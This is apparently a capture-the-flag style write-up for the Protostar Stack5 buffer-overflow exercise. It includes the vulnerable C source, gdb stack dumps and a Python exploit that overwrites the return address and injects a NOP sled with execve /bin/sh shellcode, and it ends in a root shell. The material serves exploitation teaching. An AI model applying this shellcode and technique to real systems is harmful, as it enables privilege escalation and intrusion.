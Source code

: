 Our goal is to solve this explotation challenge <i> [Stack5](https://exploit.education/protostar/stack-five/)</i>


# Code to exploit 
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}


```
## Problem of code
This is a standard buffer overflow challenge. We will redirect code execution to stack and we will use a shellcode

We will execute the programm with gdb to have a view of the assembly code and memory.

```c
(gdb) disassemble main
Dump of assembler code for function main:
0x080483c4 <main+0>:	push   %ebp
0x080483c5 <main+1>:	mov    %esp,%ebp
0x080483c7 <main+3>:	and    $0xfffffff0,%esp
0x080483ca <main+6>:	sub    $0x50,%esp
0x080483cd <main+9>:	lea    0x10(%esp),%eax
0x080483d1 <main+13>:	mov    %eax,(%esp)
0x080483d4 <main+16>:	call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:	leave  
0x080483da <main+22>:	ret    
End of assembler dump.

```

We insert a break point before the return-instruction and then we print the stack 

We pass as programm input a huge string "AAAABBBBCCCC..." and then we see that the 
return address is overwritten with 0x54545454.


```c
(gdb) b * main+22
Breakpoint 1 at 0x80483da: file stack5/stack5.c, line 11.
(gdb) r < /home/user/tmp 
Starting program: /opt/protostar/bin/stack5 < /home/user/tmp

(gdb) x/10xw$esp
0xbffff6dc:	0x54545454	0x55555555	0x56565656	0x57575757
0xbffff6ec:	0x58585858	0x59595959	0x5a5a5a5a	0xb7ffef00
0xbffff6fc:	0x08048232	0x00000001

```


We know that the ASCII value 0x54 is letter T so our exploit string will be 
"AAAABBBBCCCC....SSSS"+ the address of our shell-code + the shell-code

We will put our shellcode 32 (random number) bytes after $esp and we will use a lot of NOPs
hoping we will hit one of the NOP

And then with this python code we will do the final explotation

```python
import struct

#This function generates a string like AAAABBBBCCCC so that we can find some information 
#when we overflow gets function. Characters like AAAABBBBCCCC have easy to recognise hex values

def create_overflow_string(size):
        string = ""
        for i in range(size):
                if (i <26):
                        string = string + str(chr(65+i))*4
        return string

RANDOM_STRING_OVERFLOW = False
#RANDOM_STRING_OVERFLOW = True


#Find stack information
if (RANDOM_STRING_OVERFLOW == True ):
        string = create_overflow_string(26)
        print(string)

#Actual exploit
else:
        string = create_overflow_string(26)

        string =  string.split("TTTT")[0]

        EIP = struct.pack("I",0xbffff6e0+32)
#       Copy shellcode from https://shell-storm.org/shellcode/files/shellcode-851.php
        code = "\x90"*100 +"\x31\xc9\xf7\xe9\x51\x04\x0b\xeb\x08\x5e\x87\xe6\x99\x87\xdc\xcd\x80\xe8\xf3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x2f\x73\x68"

        print (string+EIP+code)
```

https://unix.stackexchange.com/questions/297560/cat-into-stdin-then-pipe-into-program-keeps-forked-shell-open-why

Finally we execute like this:

```
user@protostar:~$ cat <(python stack5.py) - | /opt/protostar/bin/stack5
ls -all
total 25
drwxr-xr-x 2 user user  140 Sep 29 03:52 .
drwxr-xr-x 6 root root   60 Oct 31  2012 ..
-rw-r--r-- 1 user user  220 Apr 10  2010 .bash_logout
-rw-r--r-- 1 user user 3184 Apr 10  2010 .bashrc
-rw-r--r-- 1 user user  675 Apr 10  2010 .profile
-rw-r--r-- 1 user user   19 Sep 29 03:45 cat
-rw-r--r-- 1 user user   37 Sep 29 03:20 formatexploit
-rw-r--r-- 1 user user 1047 Sep 29 03:52 stack5.py
-rw-r--r-- 1 user user  219 Sep 29 03:41 stack6
-rw-r--r-- 1 user user 1120 Sep 29 03:38 stack6.py
whoami
root


```

